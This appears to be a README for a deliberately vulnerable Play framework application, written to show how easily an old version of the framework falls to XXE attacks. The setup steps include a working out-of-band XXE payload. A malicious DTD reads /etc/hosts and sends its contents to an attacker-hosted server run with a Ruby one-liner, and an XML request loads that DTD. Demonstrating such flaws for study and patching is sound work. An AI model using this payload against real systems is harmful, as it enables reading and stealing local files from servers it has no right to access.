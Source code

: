 # Vulnerable Play application

The point for this repo is to show how easy is to do XXE attack on old version of the framework

## Steps

### Step 1
Run the app `sbt run`

### Step 2 
Create a service to serve malicious content. 

``ruby -rwebrick -e'WEBrick::HTTPServer.new(:Port => 8000, :DocumentRoot => Dir.pwd).start'``

### Step 3
Create malicious input as file test.dtd

```xml
 <!ENTITY % p1 SYSTEM "file:///etc/hosts">
 <!ENTITY % p2 "<!ENTITY e1 SYSTEM 'http://127.0.0.1:8000/BLAH?%p1;'>">
 %p2;
``` 


### Step 4
Query the service:

```xml
<?xml version="1.0"?>
<!DOCTYPE foo SYSTEM "http://127.0.0.1:8000/test.dtd">
<foo>&e1;</foo>
```
 